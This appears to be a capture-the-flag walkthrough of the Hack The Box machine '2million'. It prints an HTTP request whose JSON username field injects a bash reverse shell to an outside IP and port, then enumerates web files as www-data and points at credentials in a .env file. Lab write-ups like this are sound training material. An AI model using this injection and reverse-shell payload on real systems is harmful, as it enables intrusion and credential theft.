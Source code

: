 Easy reverse shell in `/api/v1/admin/vpn/generate`

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=125qob11f5r6kke3j1qlbf8rll
Connection: keep-alive
Content-type: application/json
Content-Length: 84

{
  "username": "slom;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.94/4444 0>&1';"
}
```


---

# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---

# Privilege Escalation to xxx

## Intial look

We have droppped to box with `www-data` user, by looking at the files we may be able to read database files. And use one of the passwords.
```sh
www-data@2million:~/html$ ls
Database.php  Router.php  VPN  assets  controllers  css  fonts  images  index.php  js  views
```

### index.php

looking at the content of index.php, we find that the website is reading the configurations from `.env` file.
[[Z Assets/Images/Pasted image 20250816120341.jpeg|Open: Pasted image 20250816120341.png]]
![[Z Assets/Images/Pasted image 20250816120341.jpeg]]
